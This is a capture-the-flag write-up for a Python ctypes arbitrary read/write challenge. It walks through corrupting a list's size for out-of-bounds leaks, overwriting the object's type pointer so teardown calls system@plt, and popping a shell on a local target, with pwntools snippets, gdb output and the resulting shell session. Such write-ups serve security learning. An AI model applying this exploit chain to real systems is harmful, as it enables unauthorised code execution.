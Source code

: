 ##  RW.py

points: 335


In the attachment we have `rw.py` and a dockerfile.
These are the contents of rw.py

```python
#!/usr/bin/env python3

import ctypes

a = [{}, (), [], "", 0.0]
while True:
    try:
        inp = input("> ")
        cmd, idx, *val = inp.split()
        idx = int(idx)
        match cmd:
            case "r":
                print(a[idx])
            case "w":
                ctypes.cast(
                    id(a) + idx, ctypes.POINTER(ctypes.c_char)
                )[0] = int(val[0])
            case _:
                break
    except Exception as e:
        print("error:", e)
```

On analyzing this, we have an object `a` over which we have arbitrary write and read.
`a` here is a `PyObject`
Here's how they are defined:

```c
typedef struct {
     Py_ssize_t ob_refcnt;   /* object reference count */
     PyTypeObject* ob_type;  /* object type */
};
```

Alright let's try to put the arbitrary read and write to use.

For reading we hvae to give `r [num]` as our input, and we only give till 4, after 4 it gives out of index error, maybe we can change that..

To find our python object while debugging, i start writing `0xdeadbeef` in the start, it will only overwrite `ob_refcnt` field which we dont really care about.
Once thats done we can use `search -t qword 0xdeadbeef` command in pwndbg to get the address of our object

```
Note: For degbugging, you can run the rw.py file and attach gdb to it by finding the pid of python process by making use of `ps aux` and `sudo gdb -x ~/.gdbinit -p <pid>.` 
```

```
pwndbg> search -t dword   0xdaedbeef
Searching for a 4-byte integer: b'\xef\xbe\xed\xda'
[anon_7f58bbc00] 0x7f58bbc01e80 0xdaedbeef
pwndbg> x/4gx 0x7f58bbc01e80
0x7f58bbc01e80:	0x00000000daedbeef	0x00007f58bc8a0d60
0x7f58bbc01e90:	0x0000000000000005	0x00007f58bbc9de60
```

Here we can notices the 0x5 in 0x7f58bbc01e90
if we try to change it to 0xff by doing `w 16 255`
```
pwndbg> x/4gx 0x7f58bbc01e80
0x7f58bbc01e80:	0x00000000daedbef3	0x00007f58bc8a0d60
0x7f58bbc01e90:	0x00000000000000ff	0x00007f58bbc9de60
```
and we get

```
> w 16 255
> r 5
Segmentation fault
```

ok.. it's not out of index anymore, on gdb it showed it wasn't able to dereference 0, it's a matter of using the right index which we can find by making a short fuzz script for the docker environment

```python
def fuzz():
    for i in range(8500,10500):
        try:
            #r = process("./rw.py")
            r = remote('127.0.0.1',1337)
            r.sendlineafter(b'>',b'w 16 255')
            r.sendlineafter(b'>',b'w 17 255')
            r.sendlineafter(b'>',b'r '+str(i).encode())
            l = r.recvline()
            if l and b'0x' in l :
                log.info(f"at {i} : {l}")
                pause()
            r.close()
        except EOFError:
            pass
```

I find innteresting leaks at 340 and 706

```
> w 16 255
> w 17 255
> r 340
<cell at 0x7fe1b10955d0: str object at 0x7fe1b109b870>
> r 706
{<weakref at 0x7fe1b10a4400; to 'type' at 0x557664c44ba0 (tuple)>, <weakref at 0x7fe1b10a44a0; to 'type' at 0x557664c447c0 (str)>, <weakref at 0x7fe1b10a45e0; to 'type' at 0x557664c46040 (memoryview)>, <weakref at 0x7fe1b10a4540; to 'type' at 0x557664c45820 (range)>}
>
```

Debuggging the process in container and using vmmap i determine that using 304 i get leak from fixed offset from our object `a` and from 706 i get a leak of `/usr/bin/python3.10` which looks like `0x55..`

```
Note: the process in container can be debugged in same way earlier
```

I also extract the `/usr/bin/python3.10` from container to make it easy for me to run ROPgadget on it.

Now we have a leak which can gives the address of out PyObject and a leak for `/usr/bin/python3.10`, usually on exiting python should call a deconstructor on our object, that would make an interesting code path to exploit
Since python stores `ob_type` pointer, it points to a struct with a lot of information for the object and functions which get called under the hood, something for deallocation too.
So i'll modify obj+8 to write '0x41414141` and see what happens.

```
> w 8 65
> w 9 65
> w 10 65
> w 11 65
> _ 0
```

and in gdb we see
![gdb_output](./hmm.png)


And we see this interesting instruction `0x5594eeb993de    call   qword ptr [r14 + 0xb8]`

where `r14` has the modified pointer from `obj+8` which we can notices because 0x41 in decimal is 65.

So while exiting it will load `obj+8` in r14 and call whatever is at `\*(obj+8)+0xb8`, so we can modify it to point to somewhere in object area because we can control this area with arbitrary write

I decide to do something like this
```c
*(obj+8)=obj+16-0xb8
```
and write something at `obj+16`


I was stuck here for a very long time, since i was trying ropping and using syscalls, unable to pivot the stack. Having no leak for system i couldnt call system directly from there, i tried fuzzing huge indexes to get leaks like those

Then i realized the python binary might have plts which resolve the addresses, thanks to gpt :')

```
$ objdump -d python3.10 | grep system
000000000006f460 <system@plt>:
   6f464:	f2 ff 25 9d 2c 4f 00 	bnd jmp *0x4f2c9d(%rip)        # 562108 <system@GLIBC_2.2.5>
   d0407:	e8 54 f0 f9 ff       	call   6f460 <system@plt>
```

awesome.

So we can call system, and `RDI` points to `obj` so we can write the `/bin/sh` str at obj, write `system@plt` at `obj+16` and make `obj+8` `obj+16-0xb8`
```python
w64(r,obj,obj,u64(b'/bin/sh\x00'))
w64(r,obj+8,obj,(obj+16)-0xb8)
w64(r,obj+16,obj,system_plt)
r.sendlineafter(b'>',b'_ 0')
```

With this our payload is ready and can exit to get the shell!!





```
(.venv) [crabsnk@void rw]$ python solve.py
[+] Opening connection to localhost on port 1337: Done
[*] l1 -> 0x7fc5f0a195d0
[*] l2 -> 0x7fc5f0a1f870
[*] obj -> 0x7fc5f0a55a00
[*] /bin/python - > 0x55a608d56000
[*] system_plt at -> 0x55a608dc5464
[*] Paused (press any to continue)
[*] Switching to interactive mode
 $ ls
flag.txt
get-flag
pwn
$ cat flag.txt
get dis man
$
```

the [solve script](./solve.py)
